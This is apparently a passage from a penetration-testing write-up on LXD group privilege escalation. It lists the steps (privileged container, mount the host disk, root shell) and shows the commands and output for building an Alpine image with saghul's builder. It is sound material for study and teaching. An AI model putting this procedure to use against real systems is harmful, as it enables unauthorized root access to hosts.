 # Exploitation
The privilege escalation attack vector leveraging the vulnerability was first reported on LXD's GitHub as an issue[^f4] 
and exploit methods have been developed ever since. Reboare[^f5] has one such amazing write up, where LXD's code 
execution as root on the host was leveraged to escalate privileges. The exploitation is quite simple and it involves
just the following steps.
1. Create an LXC container
2. Assign it security privileges
3. Mount the entire (target) disk inside the container
4. Drop a shell inside the container and access the target as root

# Privilege Escalation 
For an image to create a new container on the target, an existing one can be used. For external choices however, the 
most popular one is the **alpine image**, owning to its small size (approx. 5 MB). A script to create an Alpine image
for use with LXD was developed by *saghul*[^f6], with a caveat that the image has to be built with root permissions
(sudo user). 
### Step 1- Build the alpine image
The [git repository](https://github.com/saghul/lxd-alpine-builder.git) was first cloned onto the attacking host. 
Navigating into the *lxd-alpine-builder*, the image was built by executing the shell script, **built-alpine**  as the 
**root user**. The process is as shown on the section below.
```shell 
[manjaro LXD]# git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Unpacking objects: 100% (27/27), 15.98 KiB | 287.00 KiB/s, done.

[manjaro LXD]# cd lxd-alpine-builder

[manjaro lxd-alpine-builder]# ./build-alpine  
which: no apk in (/home/whit3d3vil/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/bin:/usr/lib/jvm/default/bin:/usr/bin/site_perl:/usr/bin/vendor_perl:/usr/bin/core_perl:/var/li
b/snapd/snap/bin:/opt/oracle/instantclient_19_6:/home/whit3d3vil/TargetRecon:/usr/sbin:/usr/bin:/sbin:/bin) 
Determining the latest release... v3.12 
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64 
Downloading alpine-mirrors-3.5.10-r0.apk 
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' 
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1' 
Downloading alpine-keys-2.2-r0.apk 
---SNIP---
(18/19) Installing alpine-keys (2.2-r0) 
(19/19) Installing alpine-base (3.12.0-r0) 
Executing busybox-1.31.1-r19.trigger 
OK: 8 MiB in 19 packages 

[manjaro lxd-alpine-builder]# ls -l
total 3168 
-rw-r--r-- 1 _4m0r _4m0r     768 Aug  3 20:27 README.md 
-rw-r--r-- 1 _4m0r _4m0r   26530 Aug  3 20:27 LICENSE 
-rwxr-xr-x 1 _4m0r _4m0r    7498 Aug  3 20:27 build-alpine 
-rw-r--r-- 1 root  root  3202094 Aug  3 20:36 alpine-v3.12-x86_64-20200803_2036.tar.gz
```